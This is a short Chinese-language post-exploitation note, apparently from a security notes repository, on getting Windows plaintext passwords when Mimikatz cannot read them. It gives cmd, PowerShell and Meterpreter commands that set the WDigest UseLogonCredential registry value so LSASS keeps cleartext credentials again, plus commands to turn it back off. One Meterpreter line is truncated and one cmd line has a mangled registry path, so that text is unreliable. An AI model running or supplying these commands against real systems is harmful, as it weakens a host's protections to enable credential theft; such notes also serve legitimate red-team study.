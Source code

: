 
## 无法抓取 windows 明文密码的解决方法

### 换个操作系统

破解 lsass.dmp 文件是需要系统内核版本

比如在 win03 系统上获取到 lsass.dmp 文件要在 win03 下运行 mimikatz 破解

### 改注册表

在 KB2871997 之前， Mimikatz 可以直接抓取明文密码。

微软在 win7 之后就打了补丁 kb2871997，当服务器安装 KB2871997 补丁后，系统默认禁用 Wdigest Auth ，内存（lsass 进程）不再保存明文口令。Mimikatz 将读不到密码明文。

但由于一些系统服务需要用到 Wdigest Auth，所以该选项是可以手动开启的。（开启后，需要用户重新登录才能生效）

以下是支持的系统:
- Windows 7
- Windows 8
- Windows 8.1
- Windows Server 2008
- Windows Server 2012
- Windows Server 2012R 2

**开启 Wdigest Auth**
- cmd
    ```bash
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
    ```

- powershell
    ```bash
    Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
    ```

- meterpreter
    ```bash
    reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogon
    ```

**关闭 Wdigest Auth**

- cmd
    ```bash
    reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
    ```

- powershell
    ```bash
    Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 0
    ```
